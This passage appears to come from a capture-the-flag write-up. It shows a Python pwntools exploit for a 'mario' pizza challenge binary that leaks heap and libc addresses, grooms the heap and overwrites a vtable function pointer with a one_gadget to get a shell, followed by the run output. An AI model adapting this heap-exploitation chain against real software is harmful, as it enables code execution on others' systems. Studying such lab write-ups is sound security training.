 ```
# Get the heap infoleak, figure out heap base
heapLeak = infoLeak()
heapBase = heapLeak - 0x130a0

# Make a second customer
newCustomer("15935728")

# Just order a single tomato pizza, setup the free for the explanation
orderPizzas([[tomato]])
cookPizzas("1"*200)

# Get the libc infoleak, 
leave()
libcLeak = infoLeak()
libcBase = libcLeak - 0x3c4b78

# Login as the second user, groom the heap to prep for the heap overflow of vtable function pointer

login("15935728")
orderPizzas([[tomato]])
cookPizzas("1111")
leave()

# Figure out the oneGadget address, and where it will be
oneGadget = libcBase + 0x4526a
oneGadgetPtr = heapLeak - 0xf70

# Form the payload for the heap overflow of vtable function pointer

payload = p64(oneGadget) 
payload += "0"*(0xa0 - len(payload))
payload += p64(oneGadgetPtr) 

# Login as the first user, and send the payload
login("guyinatuxedo")
explainOverflow(payload)

# Login as the second user, and admire the pies to execute our onegadget
login("15935728")
admire()

# Drop to an interactive shell
target.interactive()
```

when we run it:
```
$ python exploit.py 
[+] Starting local process './mario': pid 17615
[*] running in new terminal: /usr/bin/gdb -q  "./mario" 17615 -x "/tmp/pwno51UTr.gdb"
[+] Waiting for debugger: Done
Wellcom my friende!! It's-a me, Mario! Ready for pizza italiana vera?

. . .

Choice: 
[*] Switching to interactive mode
Admire these beauties... (3)
                  ___
                  |  ~~--.
                  |%=@%%/
                  |o%%%/
               __ |%%o/
         _,--~~ | |(_/ ._
```